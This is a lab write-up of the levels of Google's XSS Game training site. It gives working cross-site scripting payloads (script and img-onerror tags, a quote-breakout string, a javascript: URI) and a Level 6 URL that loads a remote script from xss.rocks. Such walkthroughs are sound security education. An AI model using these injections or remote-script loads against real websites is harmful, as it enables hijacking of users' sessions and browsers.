# Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```code
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I copied Safari's cookie called "level3". To do this:

1. I configured Safari to use the Burp proxy.
1. I exploited Level 1 and 2 as described above.
1. I visited the URL for level three, with the attack code appended, as shown above. When the `alert()` popped up, the game set a new cookie called `level3`.
1. I copied the name and value of the third cookie:
  ```code
  level1=f148716ef4ed1ba0f192cde4618f8dc5;
  level2=b5e530302374aa71cc3028c810b63641;
  level3=d5ce029d0680b3816a349da0d055fcfa;
  ```
  Here's how to set a new cookie in FF or Chrome using the console in dev tools:
  ```javascript
  document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
  ```

Now you can advance to level 4 in FF or Chrome. But, unlike the other cookies set by the game, the manually-set cookie will be set to expire at the end of the session. So if you close your browser tab for `xss-game.appspot.com`, then open a new tab to that website, you'll find that you can't go to Level 4. This is because the `level3` cookie expired when the previous session ended. So the better way to manually set that cookie is to include a value for the `expires` attribute:

```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires='Fri, 22 July 2022 5:34:56 GMT'";
```

You can set several other cookie attributes like this, but the [specification][2] for `document.cookie` is very detailed and specific about syntax.


## [Level 4](https://xss-game.appspot.com/level4)

I couldn't figure out Level 4. I had to Google somebody else's answer and then play with it because it was not working as they described. Eventually I found that, in all three browsers, this string worked if you input it into the form field and clicked the "create timer" button.

```
');alert();var b=('
```

But to get this attack to work by injecting directly into the URL, you first have to URL-encode the attack string:

```
%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

There are websites that will do this for you. But they can be buggy and unreliable. Recently I've been using this, which is included by default with Python 2.7.x:

```python
>>> import urllib
>>> foo = "');alert();var b=('"
>>> urllib.quote_plus(foo)
'%27%29%3Balert%28%29%3Bvar+b%3D%28%27'
```

Remember to surround the attack string with double quotes in the variable assignment. Also remember to remove the outer single quotes that Python added to the output. It's slightly different in Python 3. I learned about this in an [answer][3] on StackExchange.com.

Now, similar to the URL assembly we did for Level 1, we need to prepend the attack string with the right variable name, preceded by a `?` and followed by a `=`. We're concatenating these elements:

1. `https://xss-game.appspot.com/level4/frame`
2. `?timer=`
3. `%27%29%3Balert%28%29%3Bvar+b%3D%28%27`

Which becomes:

```code
https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

Now just click the "Go" button in the fake browser.


## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```

   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:

   ```
   javascript:alert(1)
   ```

   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[3]: http://stackoverflow.com/a/9345102
